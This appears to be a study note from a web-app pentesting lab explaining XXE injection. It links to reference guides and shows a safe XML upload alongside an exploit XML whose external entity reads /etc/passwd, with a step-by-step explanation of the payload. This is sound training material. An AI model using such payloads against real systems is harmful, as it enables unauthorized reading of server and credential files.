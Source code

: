 # Web App - XXE

> - [XXE (XML external entity) injection | AppSecExplained](https://appsecexplained.gitbook.io/appsecexplained/common-vulns/xxe-xml-external-entity-injection)
> - [PayloadsAllTheThings - XXE Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md)

➡️ **XML External Entity** (**XXE**) injection is a security vulnerability that occurs when an application processes XML input containing references to external entities without proper validation.

---

##  XXE - External Entities Injection

```bash
cd $HOME/peh/labs/user-content
	xxe-exploit.xml
	xxe-safe.xml

cat xxe-safe.xml

<?xml version="1.0" encoding="UTF-8"?>
<creds>
    <user>testuser</user>
    <password>testpass</password>
</creds>

cat xxe-exploit.xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE creds [
<!ELEMENT creds ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds><user>&xxe;</user><password>pass</password></creds>
```

- Upload `xxe-safe.xml` and check the result.
- Try `xxe-exploit.xml`
  - **XML Declaration & DOCTYPE**: Declares an XML document and defines an external entity
  - **Entity Definition**: The external entity `xxe` is set to read the file `/etc/passwd`
  - **Usage in XML**: The entity is referenced in the `<user>` tag
  - **Result**: If vulnerable, the XML parser includes the file content in the output

![](.gitbook/assets/2025-02-28_13-29-38_929.png)

---

